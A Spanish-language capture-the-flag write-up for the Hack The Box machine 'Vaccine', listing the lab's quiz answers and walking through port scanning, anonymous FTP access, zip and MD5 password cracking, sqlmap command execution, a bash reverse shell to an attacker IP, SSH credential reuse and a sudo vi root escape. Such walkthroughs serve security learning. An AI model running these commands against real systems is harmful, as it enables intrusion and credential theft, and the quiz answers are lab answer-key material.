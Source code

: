 1)Además de SSH y HTTP, ¿qué otro servicio está alojado en esta caja?
	ftp

2)Este servicio puede configurarse para permitir el inicio de sesión con cualquier contraseña para un nombre de usuario específico. ¿Cuál es ese nombre de usuario?
	anonymous

3)¿Cuál es el nombre del archivo descargado a través de este servicio?
	backup.zip

4)¿Qué script viene con el conjunto de herramientas John The Ripper y genera un hash a partir de un archivo zip protegido por contraseña en un formato que permite intentos de crackeo?
	zip2john

5)¿Cuál es la contraseña del usuario administrador del sitio web?
	qwerty789

6)¿Qué opción se puede pasar a sqlmap para intentar obtener la ejecución de comandos a través de la inyección sql?
	--os-shell

7)¿Qué programa puede ejecutar el usuario postgres como root usando sudo?
	vi

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.163.23
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.163.23 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.129.163.23 -oN target
```

![[Vaccine4.png]]

![[Vaccine1.png]]

![[Vaccine2.png]]

![[Vaccine3.png]]
*TTL:* Linux
*Puertos:*
`21`FTP | Vulnerabilidad con usuario anonymous
`22`SSH
`80`Apache/HTTP

--------
# [[Whatweb-wappalyzer]]

![[Vaccine5.png]]
No da ninguna informacion relevante

----------------
# Pagina web

![[Vaccine11.png]]

----
# Ingreso a [[ftp]] con usuario anonymous

`ftp 10.129.163.23 -p 21`
Entramos al servicio de ftp y descargamos el unico archivo con `get` que se llama backup.zip
![[Vaccine6.png]]

-------
# Sacamos el hash del archivo zip con [[zip2john]] y crackeamos contraseña con [[john]]

Intentamos descomprimir el archivo [[unzip]] `unzip backup.zip`
![[Vaccine7.png]]
Tiene contraseña asi que no lo podemos descomprimir. Usamos [[zip2john]] para sacarle el hash al archivo y luego con [[john]] crackeamos la contraseña

```shell
zip2john backup.zip > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```

![[Vaccine8.png]]
 Nos da que la contraseña del backup.zip es ``741852963``
 
Ahora descomprimimos y buscamos en los archivos que nos da si tiene algun tipo de contraseña para logearnos al panel de la web
Con [[unzip]] ``unzip backup.zip`` descomprimimos y con [[cat]][[grep]] `cat index.php | grep -i password` buscamos en los archivos si tenia contraseñas
![[Vaccine9.png]]
Nos dice que el usuario es admin y la contraseña esta en md5 2cb42f8734ea607eefed3b70af13bbd3

#### Crackeamos la contraseña que esta en md5 con [[john]]
``john -w=/usr/share/wordlists/rockyou.txt --format=raw-md5 md5 ``            | IMPORTANTE USAR el parametro de --format por que si no no crackea la contraseña
![[Vaccine10.png]]
Contraseña: ``qwerty789``
Ponemos los datos de logeo y ya estamos adentro

-------
# SQLI con [[sqlmap NO USAR]] y mandamos una [[Reverse shell]]

Al poner una ' en la parte de search nos aparece este error

![[Vaccine12.png]]
Por esto que dice `ilike` sabemos que es [[postgresql]] ya que es un error caracteristico de esta base de datos
Pero si probamos con otra inyeccion por ejemplo ``' or 1=1-- -``  ``o ' or 1=2-- -`` no nos aparece nada
##### Esto es lo que pudimos sacar manualmente, a partir de aca usamos sqlmap que la verdad no lo queria usar, pero no encontre como mandar una revershell a traves de una sqli para hacer manual el proceso, asi que seguimos los pasos del writeup


```
ACLARACION IMPORTANTE: En la parte de cookie, poner el que tenga cada uno, desde la pagina logeado como administrador apretar CTRL + SHIFT + I y ver las cookies
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3        / Primero usar este comando que va a hacer el analisis
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3 --os-shell           /Agregando el parametro de os shell, nos va a dejar ejecutar comandos
bash -c 'bash -i >& /dev/tcp/10.10.16.17/443 0>&1'                 / Este es el comando que vamos a poner para usar la revershell
```
Recordar estar en escucha con [[nc -nlvp 443]] para la [[Reverse shell]]
El cookie seria el value de PHPSESSID


![[Vaccine14.png]]

![[Vaccine13.png]]

-------
# Conseguimos credenciales para conectarnos por [[ssh]]

##### Algo a tener en cuenta es que es muy inestable la maquina, todo el tiempo se me iba la conexion y tenia que volver a mandar la [[Reverse shell]], por que no hice [[Tratamiento de la TTY]] ya que cada 30-60 segundos se me iba la conexion

Desde la carpeta /var/www/html vamos a usar el comando `grep -riE "password|.*pasword|password.*"` para buscar posibles contraseñas

![[Vaccine16.png]]
*Resultado*
dashboard.php:	 $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
Probamos las contraseñas que usa para la base de datos postre en ssh y pudimos entrar, asi que sabemos que repite las credenciales que usa

--------
# Nos conectamos por [[ssh]]

``ssh postgres@10.129.163.241`` y ponemos de contraseña `P@s5w0rd!`
![[Vaccine17.png]]

-----
# [[Tratamiento de la TTY]]

-----

# Escalada de privilegios con [[Abuso de Sudo]]

```shell
sudo -l
```

![[Vaccine18.png]]
Vemos que todos podemos ejecutar el binario /bin/vi /etc/postgresql/11/main/pg_hba.conf

Vemos que vulnerabilidad hay en la pagina de [GTFOBINS](https://gtfobins.github.io/gtfobins/vi/#sudo)

![[Vaccine22.png]]

Asi que abrimos con ``sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`` el binario para abrirlo como root. Para posteriormente salir del vi ejecutando una bash

![[Vaccine19.png]]

Desde el vi apretamos `:` en el teclado y vamos a poner estos dos comandos
```
:set shell=/bin/sh
:shell
```
![[Vaccine20.png]]

Y listo ya tenemos la bash como root, ahora solo queda ver las flags


![[Vaccine21.png]]


-------
# Creditos
Writeup Oficial HackTheBox
Writeup de [wetofu](https://wetofu.github.io/ctf/writeup/htb/htb-vaccine/)
